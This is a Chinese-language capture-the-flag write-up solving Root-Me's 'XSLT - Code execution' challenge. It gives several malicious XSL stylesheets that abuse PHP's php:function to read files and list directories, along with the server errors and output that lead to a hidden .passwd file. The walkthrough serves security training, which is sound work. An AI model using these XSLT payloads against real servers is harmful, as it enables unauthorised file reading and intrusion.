 Root-Me [XSLT - Code execution](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
===

感覺像是選擇樣板的功能頁面(?

## 解題關鍵
1. XML
2. XSL

## 提示訊息
```
Find the vulnerability and exploit it to read the file .passwd in a subdirectory of the challenge tree.
```

## 解題方法
首先參考官方提供的 `related ressource(s)`，其中有一份文件 [XSLT Processing Security and
Server Side Request Forgeries](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20XSLT%20Processing%20Security%20and%20Server%20Side%20Request%20Forgeries%20-%20OWASP%20Switzerland%20Meeting%202015.pdf) 很詳細說明該漏洞的實作方法，其中第 30 頁的部分如下。  

![](img/01.png)  

直接給出了 `Code Execution for php` 的利用方法，簡單的說漏洞利用有點像之前練習的 [XXE](https://mks.tw/2918/)，透過外部實體引入的方式進行攻擊。  

首先在外部伺服器創建一個 `mksyi.xsl` 並且設定檔案內容如下。  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:php="http://php.net/xsl">
	<xsl:output method="html"/>
	<xsl:template match="/">
		<xsl:value-of select="php:function('file_get_contents', 'index.php')" />
	</xsl:template>
</xsl:stylesheet>
```

接著回到該題的頁面上，並且修改 POST 的內容為 `http://{HOST}/{file}.xsl` ，讓該頁面去讀取外部的 xsl，如下圖。  

![](img/02.png)  

成功讀取到 `index.php` 頁面，由於該次目標是 `.passwd`，直覺想到的是 `/etc/passwd`，但該題似乎有限制沒辦法讀取上層目錄，回應訊息如下。  

```
Warning: file_get_contents(): open_basedir restriction in effect. File(/etc/passwd) is not within the allowed path(s): (/challenge/web-serveur/ch50) in /challenge/web-serveur/ch50/index.php on line 13 Warning: file_get_contents(/etc/passwd): failed to open stream: Operation not permitted in /challenge/web-serveur/ch50/index.php on line 13 false
```

並且嘗試過 `system()`、`shell_exec()` 等方法執行系統指令，但回應訊息如下。  

```
Warning: shell_exec() has been disabled for security reasons in /challenge/web-serveur/ch50/index.php on line 13
```

然後折騰了好一段時間發現...這題真的有夠機車，先想辦法把目錄下的檔案 Dump 出來，使用的 `xsl` 如下。  

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:php="http://php.net/xsl">
	<xsl:output method="html"/>
	<xsl:template match="/">
        <xsl:value-of select="php:function('opendir','.')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
	</xsl:template>
</xsl:stylesheet>
```

接著拿到這樣的一串東西，如下。  

```
Resource id #6..beers.xml._nginx.http-level.incstyle1.xsl._nginx.server-level.incstyle2.xsl._firewall.style3.xslindex.php._php-fpm.pool.inc.6ff3200bee785801f420fba826ffcdee
```

簡單手工分析之後如下。  

```
esource id #6
beers.xml
_nginx.http-level.inc
style1.xsl
_nginx.server-level.inc
style2.xsl
_firewall
style3.xsl
index.php
_php-fpm.pool.inc
.6ff3200bee785801f420fba826ffcdee
```

這邊最可疑的檔案就是 `.6ff3200bee785801f420fba826ffcdee`，於是就用 `file_get_contents` 去讀取他，結果什麼東西都沒跑出來...，於是繼續探勘其他地方，直到想破頭，上 Rootme 社群找線索，發現文章（[傳送門](https://www.root-me.org/?page=forum&id_thread=10302&lang=en)）如下。  

![](img/03.png)  

看到該提示就恍然大悟，`.6ff3200bee785801f420fba826ffcdee` 可能是目錄，而不是檔案，而目標 `.passwd` 可能就藏在其中，所以修改 Payload 如下。  

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:php="http://php.net/xsl">
	<xsl:output method="html"/>
	<xsl:template match="/">
        <xsl:value-of select="php:function('opendir','.6ff3200bee785801f420fba826ffcdee')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
	</xsl:template>
</xsl:stylesheet>
```

果不其然的出現了關鍵字!!  

![](img/04.png)  

接著就用 `file_get_contents` 讀取該檔案，解決該題...。  

![](img/05.png)  

## Reference
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20XSLT%20Processing%20Security%20and%20Server%20Side%20Request%20Forgeries%20-%20OWASP%20Switzerland%20Meeting%202015.pdf
https://security.stackexchange.com/questions/170712/execute-a-php-function-that-returns-an-array-from-an-xsl-file?rq=1

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)